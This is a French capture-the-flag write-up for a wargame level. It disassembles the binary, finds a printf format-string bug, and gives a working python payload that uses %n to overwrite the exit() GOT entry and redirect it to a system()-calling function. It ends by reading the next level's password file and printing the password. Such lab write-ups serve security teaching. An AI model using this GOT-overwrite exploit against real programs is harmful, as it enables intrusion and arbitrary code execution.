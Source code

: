 #level5

$./level5
test
test

Level5 attend un input et ensuite l'affiche.

Regardons un peu plus en détail.

$ gdb level5

> disas main
> Dump of assembler code for function main:
> 0x08048504 <+0>: push %ebp
> 0x08048505 <+1>: mov %esp,%ebp
> 0x08048507 <+3>: and $0xfffffff0,%esp
> 0x0804850a <+6>: call 0x80484c2 <n>
> 0x0804850f <+11>: leave
> 0x08048510 <+12>: ret
> End of assembler dump.

On voit la fonction n(), allons la voir en détail.

> disas n
> Dump of assembler code for function n:
> 0x080484c2 <+0>: push %ebp
> 0x080484c3 <+1>: mov %esp,%ebp
> 0x080484c5 <+3>: sub $0x218,%esp
> 0x080484cb <+9>: mov 0x8049848,%eax
> 0x080484d0 <+14>: mov %eax,0x8(%esp)
> 0x080484d4 <+18>: movl $0x200,0x4(%esp)
> 0x080484dc <+26>: lea -0x208(%ebp),%eax
> 0x080484e2 <+32>: mov %eax,(%esp)
> 0x080484e5 <+35>: call 0x80483a0 <fgets@plt>
> 0x080484ea <+40>: lea -0x208(%ebp),%eax
> 0x080484f0 <+46>: mov %eax,(%esp)
> 0x080484f3 <+49>: call 0x8048380 <printf@plt>
> 0x080484f8 <+54>: movl $0x1,(%esp)
> 0x080484ff <+61>: call 0x80483d0 <exit@plt>
> End of assembler dump.

On voit une vulnaribilité sur printf.

Regardons s'il y a d'autres fonctions dans le programme.

> info functions
> All defined functions:

Non-debugging symbols:
0x08048334 \_init
0x08048380 printf
0x08048380 printf@plt
0x08048390 \_exit
0x08048390 \_exit@plt
0x080483a0 fgets
0x080483a0 fgets@plt
0x080483b0 system
0x080483b0 system@plt
0x080483c0 **gmon_start**
0x080483c0 **gmon_start**@plt
0x080483d0 exit
0x080483d0 exit@plt
0x080483e0 **libc_start_main
0x080483e0 **libc_start_main@plt
0x080483f0 \_start
0x08048420 **do_global_dtors_aux
0x08048480 frame_dummy
0x080484a4 o
0x080484c2 n
0x08048504 main
0x08048520 **libc_csu_init
0x08048590 **libc_csu_fini
0x08048592 **i686.get_pc_thunk.bx
0x080485a0 \_\_do_global_ctors_aux
0x080485cc \_fini

On voit la fonction o(), allons la voir en détail.

> disas o
> Dump of assembler code for function o:
> 0x080484a4 <+0>: push %ebp
> 0x080484a5 <+1>: mov %esp,%ebp
> 0x080484a7 <+3>: sub $0x18,%esp
> 0x080484aa <+6>: movl $0x80485f0,(%esp)
> 0x080484b1 <+13>: call 0x80483b0 <system@plt>
> 0x080484b6 <+18>: movl $0x1,(%esp)
> 0x080484bd <+25>: call 0x8048390 <_exit@plt>
> End of assembler dump.

Parfait nous avons juste à faire un appel à la fonction o.

Mais comment ? Car dans la fonction n(), on fait un exit(1) et on quitte le programme.

On va donc essayer de changer l'adresse de la fonction exit() pour qu'elle pointe vers o().

On obtient l'adresse de exit() en regardant le GTO (Global Offset Table).

$ objdump -R level5

level5: file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET TYPE VALUE
08049814 R_386_GLOB_DAT **gmon_start**
08049848 R_386_COPY stdin
08049824 R_386_JUMP_SLOT printf
08049828 R_386_JUMP_SLOT \_exit
0804982c R_386_JUMP_SLOT fgets
08049830 R_386_JUMP_SLOT system
08049834 R_386_JUMP_SLOT **gmon_start**
08049838 R_386_JUMP_SLOT exit
0804983c R_386_JUMP_SLOT \_\_libc_start_main

L'adresse de exit() est 0x08049838.

On va afficher la memoire jusqu'au exit.

$ python -c 'print "AAAA" + "%x "\*8' | ./level5
AAAA200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520 25207825

Donc l'adresse d'exit est en 4eme position.

Maintenant changons l'adresse de exit() pour qu'elle pointe vers o() avec le modifieur %n.

Il nous faut le nombre de byte à ecrire, donc (0x080484a4 - 4) en decimal pour les 4 bytes de l'adresse d'exit.

$ (python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"'; cat -) | ./level5

cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
